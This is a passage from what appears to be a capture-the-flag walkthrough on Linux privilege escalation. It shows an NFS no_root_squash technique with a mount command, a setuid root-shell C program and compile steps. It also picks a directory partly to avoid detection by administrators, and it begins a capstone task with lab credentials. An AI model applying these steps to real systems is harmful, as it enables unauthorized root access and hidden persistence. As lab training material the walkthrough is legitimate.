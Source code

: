```terminal
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Let's go for the `/home/ubuntu/sharedfolder` since that one does not require root permissions like `/home/backup` and it does not contain anything like `/tmp` does. 

>From a security perspective it would also be preferred to put it in the `/home/ubuntu/sharedfolder` since that folder is empty right now, it could mean it is seldomly checked also, the `/tmp` folder will most likely checked by administrators more often and probably cleaned periodically increasing the chances of it being deleted or detected.


If you are not root user, use `sudo su -` to become root on your local machine. Use `mount -o rw MACHINE_IP:/home/backup backupFolderOnAttackerMachine` to mount the backup folder to your computer. Create a file nfs.c (or whatever you want to call it) in the mounted directory. 

```c
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile it with `gcc nfs.c -o nfs -w` if you get an gcc error on the target machine, compile it by adding the `-static` flag as well.

If you run `./nfs` on the target host, you should get a root shell.

---

**Q: What is the content of the flag7.txt file?**
<details><summary>Answer</summary></details>

## Task 12: Capstone Challenge
Time for a challenge! 

We are given a start with the user leonard and the password Penny123. Our first mission is to get the contents of flag1.txt. Let's find it through  `find / -name "flag1.txt" 2>/dev/null`. It seems to be located in Missy's `Documents` folder. 
Let's have a look around if we can find any possible ways to get access to it.

### Enumerating Leonard

#### Kernel
Let's start off by looking at the kernel. It seems like it is a red-hat version 

```terminal
Linux version 3.10.0-1160.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-44) (GCC) ) 
```
After a quick look at exploit-db there does not seem to be any obvious exploits available. Let's come back to this if needed and move on.
